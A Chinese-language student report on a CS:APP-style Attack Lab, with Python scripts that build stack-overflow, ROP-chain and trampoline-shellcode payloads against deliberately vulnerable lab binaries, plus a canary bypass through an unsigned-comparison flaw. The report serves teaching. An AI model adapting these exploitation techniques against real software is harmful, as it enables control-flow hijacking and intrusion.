




# 栈溢出攻击实验报告

## 题目解决思路

### Problem 1: 基础栈溢出
- **分析**：
    通过 `objdump` 反汇编 `problem1`，我发现 `func` 函数中调用了 `strcpy`，这是一个不安全的函数，未检查输入长度。
    观察汇编代码：
    ```assembly
    401246: 48 8d 45 f8           lea    -0x8(%rbp),%rax
    ```
    缓冲区起始地址位于 `rbp-0x8`。在 64 位 Linux 系统中，栈帧结构为 `[Buffer] -> [Saved RBP] -> [Return Address]`。
    `Saved RBP` 占用 8 字节。因此，从缓冲区头部到返回地址的偏移量为：
    $$8 \text{ (Buffer)} + 8 \text{ (Saved RBP)} = 16 \text{ Bytes}$$
    我们的目标是将返回地址覆盖为 `func1` 的地址 (`0x401216`)，从而劫持控制流。

- **解决方案**：
    使用 Python 脚本生成 payload。利用 padding 填充满偏移量，紧接着写入目标地址（注意遵循小端序存储）。

    ```python
    import sys
    
    
    padding = b'A' * 16
    target_addr = b'\x16\x12\x40\x00\x00\x00\x00\x00'
    
    payload = padding + target_addr
    
    with open("ans1.txt", "wb") as f:
        f.write(payload)
    ```

- **结果**：


### Problem 2: ROP 链与参数传递
- **分析**：
    本题的目标是调用 `func2`，但该函数内部检查了参数：
    ```assembly
    401225: 81 7d fc f8 03 00 00  cmpl   $0x3f8,-0x4(%rbp)
    ```
    在 x64 架构下，函数的前六个参数通过寄存器传递，第一个参数位于 `%rdi` 寄存器。因此，单纯覆盖返回地址无法满足参数要求。
    我们需要构造 ROP (Return Oriented Programming) 链：
    1.  利用 Gadget `pop rdi; ret` 将栈上的数据弹入 `%rdi`。
    2.  跳转到 `func2`。
    通过搜索汇编代码，在 `0x4012c7` 处找到了可用的 `pop rdi; ret` 指令。

- **解决方案**：
    构造的栈结构为：`[Padding]` -> `[Gadget Address]` -> `[Argument 0x3f8]` -> `[Func2 Address]`。

    ```python
    import sys
    import struct
    
    
    padding = b'A' * 16
    pop_rdi_addr = 0x4012c7
    arg1 = 0x3f8
    func2_addr = 0x401216
    rop_chain = struct.pack('<Q', pop_rdi_addr) + \
                struct.pack('<Q', arg1) + \
                struct.pack('<Q', func2_addr)
    
    payload = padding + rop_chain
    
    with open("ans2.txt", "wb") as f:
        f.write(payload)
    ```

- **结果**：


### Problem 3: Shellcode 与 Trampoline
- **分析**：
    本题开启了 ASLR（地址随机化），且没有明显的 ROP Gadget 来设置 `%rdi` 为 `114`（`func1` 的要求）。
    分析汇编发现程序存在“后门”机制：`func` 函数将当前的 `%rsp` 保存到了全局变量中，且 `jmp_xs` 函数会跳转到 `Saved RSP + 0x10` 的位置。
    计算发现，`Saved RSP + 0x10` 正好指向缓冲区的起始位置 (`rbp-0x20`)。
    因此，我们可以利用 Trampoline 技术：
    1.  在缓冲区中注入 Shellcode（机器码），功能是设置 `%rdi=114` 并调用 `func1`。
    2.  将返回地址覆盖为 `jmp_xs` 的地址 (`0x401334`)。
    3.  程序返回时跳板至 `jmp_xs`，再跳回栈上的 Shellcode 执行。

- **解决方案**：
    编写汇编代码并转化为机器码作为 Payload。

    ```python
    import sys
    import struct
    
    shellcode = b'\x6a\x72\x5f\x48\xc7\xc0\x16\x12\x40\x00\xff\xd0'
    
    padding = b'A' * (32 - len(shellcode) + 8)
    
    jmp_xs_addr = 0x401334
    ret_addr = struct.pack('<Q', jmp_xs_addr)
    
    payload = shellcode + padding + ret_addr
    
    with open("ans3.txt", "wb") as f:
        f.write(payload)
    ```

- **结果**：


### Problem 4: Canary 绕过与逻辑漏洞
- **分析**：
    **Canary 保护机制**：
    本题开启了“栈金丝雀”保护，这是一种防止栈溢出的机制。
    在 `main` 函数汇编中可以看到：
    1.  **设置 Canary**：
        ```assembly
        142f: 64 48 8b 04 25 28 00    mov    %fs:0x28,%rax  ; 从 FS 段寄存器取随机值
        1438: 48 89 45 f8             mov    %rax,-0x8(%rbp); 放置在 Buffer 和 RBP 之间
        ```
    2.  **检查 Canary**：
        ```assembly
        1596: 48 8b 45 f8             mov    -0x8(%rbp),%rax
        159a: 64 48 2b 04 25 28 00    sub    %fs:0x28,%rax  ; 检查值是否改变
        15a3: e8 28 fb ff ff          call   __stack_chk_fail@plt ; 若改变则报错退出
        ```
    
    由于无法简单覆盖返回地址，我转向逆向分析程序逻辑。
    `func` 函数将输入值与 `-2` (`0xfffffffe`) 进行比较。使用的是 `jae` (无符号大于等于跳转)。
    如果输入 `-1` (`0xffffffff`)，它在无符号意义上大于 `-2`，从而绕过后续的减法循环，直接触发胜利分支：
    ```assembly
    13df: cmpl $0xffffffff, -0xc(%rbp) ; 检查是否为 -1
    13e3: je 13f6                      ; 跳转到胜利
    ```

- **解决方案**：
    不需要编写二进制 Payload。通过与程序交互：
    1.  输入名字和确认 "yes"。(好像这里输出no也可以)
    2.  在询问金额时，输入 `-1`。
    程序会将 `-1` 解释为无符号最大整数，从而通过逻辑检查。

- **结果**：


## 思考与总结

通过本次 Attack Lab 实验，我深入理解了栈溢出攻击的底层原理及其演进过程。

1.  **攻击技术的演变**：从 Problem 1 最简单的覆盖返回地址，到 Problem 2 利用 ROP 技术进行参数传递，再到 Problem 3 利用 Shellcode 和 Trampoline 配合绕过 ASLR，难度层层递进。这展示了攻击者如何在限制条件下寻找突破口。
2.  **防御机制的认识**：Problem 4 让我认识到了 Canary 保护的有效性。它使得传统的连续覆盖攻击失效。但同时也揭示了，即使内存保护再完善，**程序逻辑漏洞**（如整数符号问题）依然可能导致系统崩溃或被劫持。
3.  **工具的重要性**：熟练掌握 `objdump` 查看汇编代码、`gdb` 动态调试以及使用 Python `struct` 库构造二进制流，是进行底层安全研究的基础技能。

这次实验不仅锻炼了我的逆向分析能力，也让我明白了“安全编程”的重要性——不仅要防范内存错误，更要严谨设计代码逻辑。

## 参考资料

1.  Randal E. Bryant, David R. O'Hallaron. *Computer Systems: A Programmer's Perspective (3rd Edition)*. Pearson, 2015. 